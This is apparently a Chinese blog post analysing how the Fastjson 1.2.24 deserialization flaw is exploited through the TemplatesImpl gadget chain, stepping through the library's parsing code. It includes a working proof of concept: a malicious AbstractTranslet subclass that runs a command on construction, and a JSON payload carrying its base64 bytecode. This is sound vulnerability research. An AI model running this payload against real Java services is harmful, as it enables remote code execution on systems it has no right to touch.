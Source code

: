 +++
title = "Fastjson 1.2.24 TemplatesImpl利用链"
publishDate = 2021-04-12T00:00:00+08:00
tags = ["fastjson", "java"]
draft = false
+++

Fastjson 是 alibaba 的一款开源 JSON 解析库，可以将 Java 对象和 JSON 字符串相互转化，并提供了 autotype 机制让使用者可以解析任意 Java 对象，导致一些存在利用点的类被用来进行反序列化攻击。
<!--more-->


## TemplatesImpl 利用链 {#templatesimpl-利用链}

这个类存在利用点的方法是 getTransletInstance，关键的代码如下：

```java
if (_name == null) return null;

if (_class == null) defineTransletClasses();

// The translet needs to keep a reference to all its auxiliary
// class to prevent the GC from collecting them
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
...
```

首先是 `_name` 变量不能为空，不然直接返回 null。

这里的 `_class` 数组用来保存辅助类，避免垃圾收集器将它们销毁，并通过 newInstance 方法将主类初始化赋值给 translet 变量。前面判断当 `_class` 数组为空时会执行
defineTransletClasses 方法，我们跟进分析一下。

{{< figure src="/ox-hugo/2021-04-11_13-55-39_screenshot.png" >}}

这个方法主要是将 `_bytecodes` 的字节码提取出来，并调用 `loader.defineClass` 方法生成各个辅助类的 Class 对象保存到 `_class` 数组中。注意上图的两个红框部分——在创建 loader
时需要调用 `_tfactory` 私有变量中的方法，如果变量是空的话会报错，所以构造 poc 时需要随便设一个初始值；为了将当前的类设为主类使它初始化，需要这个类继承
AbstractTranslet 类。

综上我们可以构造一个 AbstractTranslet 的子类保存到 `_bytecodes` 中，在它的构造方法写入命令，当这个恶意类被初始化时命令就会执行。

```java
public class EvilObject extends AbstractTranslet {
    public EvilObject() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}
```

为了调用 getTransletInstance 方法，我们需要从 getOutputProperties 方法进入，它是私有变量 `_outputProperties` 的 getter 方法，会在 Fastjson 反序列化的过程中执行。调用栈如下：

{{< figure src="/ox-hugo/2021-04-11_15-01-58_screenshot.png" >}}


## Fastjson 解析过程 {#fastjson-解析过程}

通过下面的示例代码，构造恶意 TemplatesImpl 类的 JSON 字符串，调用 JSON#parse 方法进行反序列化：

```java
public class TemplatesImplPoc {
    public static String getBytecodes(String classPath) throws IOException {
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        Files.copy(Paths.get(classPath), out);
        return Base64.getEncoder().encodeToString(out.toByteArray());
    }

    public static void main(String[] args) throws Exception {
        final String evilClassPath = System.getProperty("user.dir") + "\\target\\classes\\EvilObject.class";
        String evilCode = getBytecodes(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String poc = "{\"@type\":\"" + NASTY_CLASS + "\",\"_bytecodes\":[\"" + evilCode + "\"],'_name':'a.b','_tfactory':{},\"_outputProperties\":{}}";
        JSON.parse(poc, Feature.SupportNonPublicField);
    }
}
```

首先编译恶意类得到 class 文件，读取文件内容并且 base64 编码后写到 `_bytecodes` 数组中，
`@type` 指定反序列化 json 字符串的目标类型。然后初始化了一些属性，这些属性的作用在前面有解释，由于要设置私有属性，反序列化时需要开启 SupportNonPublicField 选项才能利用成功。

一直跟进到 DefaultJSONParser#parseObject 方法，创建 DefaultJSONParser 对象时初始化了
ParserConfig、JSONScanner 等重要类的实例。

{{< figure src="/ox-hugo/2021-04-11_23-57-31_screenshot.png" >}}

Fastjson 1.2.24 还没有引入 checkAutotype 安全机制，黑名单中只要两个线程类。

识别到 `@type` 关键字后，会从值中读取类名并获取 Class 对象，然后调用
ParserConfig#getDeserializer 方法获取解析器。

{{< figure src="/ox-hugo/2021-04-12_00-09-51_screenshot.png" >}}

在 getDeserializer 方法中对类名进行一些检查，看看是否在 denyList 中，或者是不是一些特殊的类。

{{< figure src="/ox-hugo/2021-04-12_00-15-10_screenshot.png" >}}

如果一直找不到解析器，就会执行 createJavaBeanDeserializer 方法创建。跟进到
JavaBeanInfo#build 方法：

{{< figure src="/ox-hugo/2021-04-12_01-11-59_screenshot.png" >}}

通过反射获取 TemplatesImpl 类的公共属性、方法和构造器，然后遍历公共方法将 setter 和对应的属性信息添加到 fieldList 中。

{{< figure src="/ox-hugo/2021-04-12_01-33-44_screenshot.png" >}}

在方法最后又对 methods 进行了一次遍历，这次将关键的 getOutputProperties 方法添加到
fieldList 中。

{{< figure src="/ox-hugo/2021-04-12_01-42-44_screenshot.png" >}}

可以看到方法需要满足一些条件，首先是 if 语句中条件：

```java
// 1.方法名长度大于4
methodName.length() >= 4 &&
// 2.不能是静态方法
!Modifier.isStatic(method.getModifiers()) &&
// 3.以get开头
methodName.startsWith("get") &&
// 4.第四个字符是大写
Character.isUpperCase(methodName.charAt(3)) &&
// 5.不能有参数
method.getParameterTypes().length == 0 &&
// 6.返回值继承于Collection||Map||AtomicBoolean||AtomicInteger||AtomicLong
(Collection.class.isAssignableFrom(method.getReturnType()) ||
 Map.class.isAssignableFrom(method.getReturnType()) ||
 AtomicBoolean.class == method.getReturnType() ||
 AtomicInteger.class == method.getReturnType() ||
 AtomicLong.class == method.getReturnType())
```

然后是属性不能在 fieldList 中，也就是刚刚添加 setter 时没有该属性的 setter。

最后返回解析器并执行它的 deserialze 方法，解析器的 sortedFieldDeserializers 属性封装了 getOutputProperties 方法。

{{< figure src="/ox-hugo/2021-04-12_03-12-20_screenshot.png" >}}

依次处理完 bytecodes、name 和 tfactory 三个属性后开始处理 outputProperties，我们跟进到 JavaBeanDeserializer#parseField 方法，该方法获取属性的解析器对其进行处理。

{{< figure src="/ox-hugo/2021-04-12_02-57-52_screenshot.png" >}}

从上图看到通过 smartMatch 方法获取 outputProperties 属性的解析器，但是参数前面是带有下划线的(之前三个属性也是)。不过 smartMatch 方法会将参数中的 `-` 和 `_` 忽略：

{{< figure src="/ox-hugo/2021-04-12_03-02-20_screenshot.png" >}}

然后跟进到 FieldDeserializer#setValue 方法，在为参数(outputProperties)赋值时从
fieldInfo 获取对应的 method 并调用 invoke 方法执行。

{{< figure src="/ox-hugo/2021-04-12_03-18-34_screenshot.png" >}}

就这样 Fastjson 的反序列化过程和 TemplatesImpl 的利用链成功适配，导致命令执行。

我们再回过头看看 bytecodes 参数的解析过程，Fastjson 根据属性的类型(字节数组)获取对应的解析器 ObjectArrayCodec，读取其内容时调用 JSONScanner#bytesValue 方法进行 base64
解码：

{{< figure src="/ox-hugo/2021-04-12_15-04-21_screenshot.png" >}}

```java
public byte[] bytesValue() {
    return IOUtils.decodeBase64(this.text, this.np + 1, this.sp);
}
```

所以 poc 中 bytecodes 的值要进行编码处理。


## 总结 {#总结}

Fastjson 1.2.24 中 autotype 是默认开启的，而且没有 checkAutotype 方法，所以攻击难度相对较低，在 1.2.25 后基本是针对 checkAutotype 的各种绕过了。但
TemplatesImpl 利用链中需要设置一些私有属性，需要 Fastjson 开启
SupportNonPublicField 选项，而这个选项是在 1.2.22 版本引入的。

Fastjson 还提供了几个 parseObject 方法来解析 JSON 字符串，不过最后和本文的示例一样都会执行到 DefaultJSONParser#parse，不影响 TemplatesImpl 利用链。

Fastjson 解析 JSON 字符串时，会调用反序列化对象的公共 setter 和构造函数，还有符合一定条件的 getter，TemplatesImpl 利用链就是用到了 getter方法中的漏洞。
